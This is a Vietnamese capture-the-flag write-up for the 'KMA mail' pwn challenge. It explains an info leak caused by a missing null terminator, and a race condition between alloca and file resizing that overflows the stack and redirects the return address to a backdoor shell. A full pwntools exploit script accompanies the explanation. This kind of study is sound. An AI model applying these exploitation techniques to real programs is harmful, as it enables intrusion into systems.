





# KMA mail

- Bài này cho ta cả [sorce code](./chall/share/kmamail.c). Vậy chúng ta hãy phân tích source code nào



- Đập vào mắt chúng ta là hàm `backdoor()` giúp ta tạo shell. Vậy target của chúng ta là leak PIE và overwrite `ret_addr` thành hàm `backdoor()` thôi

- Sau đó, ở hàm init, chương trình tạo thư mục `data` để lưu các thông tin account trong đó

- `reg_acc()` cho phép chúng ta nhập username và chương trình sẽ tạo thư mục với `username` đó, trong thư mục đó thì sẽ có file `passwd` lưu trữ mật khẩu mà ta nhập vào.

- Hàm `log_acc()` không có gì cần để ý, chỉ kiểm tra `username` và `password` đúng hay không nên mình bỏ qua



- Đến với hàm `send_mail()`. Ta thấy đầu tiên nhập `receiver`, trước khi ghi vào, chương trình sẽ kiểm tra `receiver` đó có tồn tại hay không. Vậy nên ở đây không có lỗi

- Tiếp theo là `Title`, ta thấy lệnh: `title[strlen(title)-1] = '\0';` Như vậy ta cũng không lỗi nào ở đây cả

- Tuy nhiên đến phần nhập `content`, chương trình sẽ đọc từng char một cho đến khi vòng lặp kết thúc (có 3 kí tự `\n` liên tiếp được đọc thì sẽ ngắt vòng lặp), sau đó cả 3 đều được ghi vào file với format `%s\n`. Nhìn lại ta thấy không có một byte `\0` nào được thêm vào `content` của ta nhập vào cả, mà biến `content` được tạo trên stack => Rất có khả năng ta sẽ nối string để leak PIE:



- Như vậy khi chương trình thực hiện `fprintf(f, "%s\n", content);`, nó sẽ ghi cả địa chỉ PIE vào file, từ đó ta dùng hàm `read_mail` để đọc thôi



- Ở hàm này, chương trình sẽ kiểm tra liệu có file `mail` trong thư mục của user đó không.

- Sau đó lấy kích thước của file đó và `alloca` cho biến `buf`. Hàm `alloca` này sẽ chỉ trừ địa chỉ `$rsp` thôi.

- Mà bên dưới ta thấy chương trình `usleep()` 1s. Kết hợp với mở file => Ta có thể tận dụng bug `race condition` tạo một process khác và gửi một mail có kích thước siêu nhỏ, khi đó chương trình sẽ trừ `rsp` cho một số nhỏ, rồi khi  `Opening mail`, ta đổi lại thành một kích thước siêu lớn, từ đó ta tạo ra được lỗi `buffer overflow`. Nhưng bài này có canary, chúng ta lại không có cách nào để leak canary. Vì vậy ta sẽ tìm xem có cách nào để ghi đè `ret_addr`

- Để ý thì chương trình ghi `content` từng byte một



- Để ý thấy biến đếm `i` được lưu tại `$rbp- 0x24` vì vậy, chúng ta chỉ cần thay đổi biến đếm `i` sao cho `buf[i]` trỏ đến `ret_addr`, từ đó ta sẽ overwrite được `ret_addr`

## Solve script

```python
#!/usr/bin/python3

from pwn import *

exe = ELF("./kmamail")

context.binary = exe

s   = lambda data: p.send(data)
sa  = lambda msg, data: p.sendafter(msg, data)
sl  = lambda data: p.sendline(data)
sla = lambda msg, data: p.sendlineafter(msg, data)
sn  = lambda num: p.send(str(num).encode())
sna = lambda msg, num: p.sendafter(msg, str(num).encode())
sln = lambda num: p.sendline(str(num).encode())
slna = lambda msg, num: p.sendlineafter(msg, str(num).encode())

rs   = lambda data: r.send(data)
rsa  = lambda msg, data: r.sendafter(msg, data)
rsl  = lambda data: r.sendline(data)
rsla = lambda msg, data: r.sendlineafter(msg, data)
rsn  = lambda num: r.send(str(num).encode())
rsna = lambda msg, num: r.sendafter(msg, str(num).encode())
rsln = lambda num: r.sendline(str(num).encode())
rslna = lambda msg, num: r.sendlineafter(msg, str(num).encode())
def GDB():
    if not args.REMOTE:
        # gdb.attach(p, gdbscript='''
        # b*send_mail+409 

        # c
        # ''')
        # sleep(1)
        gdb.attach(r, gdbscript='''
        b*send_mail+409 
        b*read_mail + 614

        

        c
        ''')

if args.REMOTE:
    p = remote('')
    r = remote('')
else:
    p = process([exe.path])
    r = process([exe.path])

GDB()

# REGISTER
slna(">",1)
sla("Username: ",b'1')
sla("Password: ",b'1')

slna(">",1)
sla("Username: ",b'2')
sla("Password: ",b'2')

slna(">",1)
sla("Username: ",b'2')
sla("Password: ",b'2')

# LOGIN

slna(">",2)
sla("Username: ",b'1')
sla("Password: ",b'1')

rslna(">",2)
rsla("Username: ",b'1')
rsla("Password: ",b'1')

rslna(">",1)
rsla("RECEIVER",b'2')

payload = b'\n'
payload += b'a' * 0x52
payload += b'\n'*3
rsl(payload)

rslna(">",0)
rslna(">",2)
rsla("Username: ",b'2')
rsla("Password: ",b'2')
rslna(">",2)

payload = b'a' * 0x52
payload += b'\n'*3
r.recvuntil(payload)
leak_pie = u64(r.recv(6)+b'\0\0')
info(hex(leak_pie))
exe.address = leak_pie - 0x1823
info(hex(exe.address))

slna(">",1)
sla("RECEIVER",b'2')

payload = b'b\n'
payload += b'\n'*3
s(payload)
sleep(2)

slna(">",1)
sla("RECEIVER",b'2')
payload = b'\n'
payload += b'c'*0x2c
payload += p8(0x57)
payload += p64(exe.sym['backdoor']+5)
payload += b'\n'*3
# max is 0x3fc byte
s(payload)
sleep(0.5)
rslna(">",2)

p.interactive()
r.interactive()


#send -> sleep -> check_read ->sleep -> write into file 

```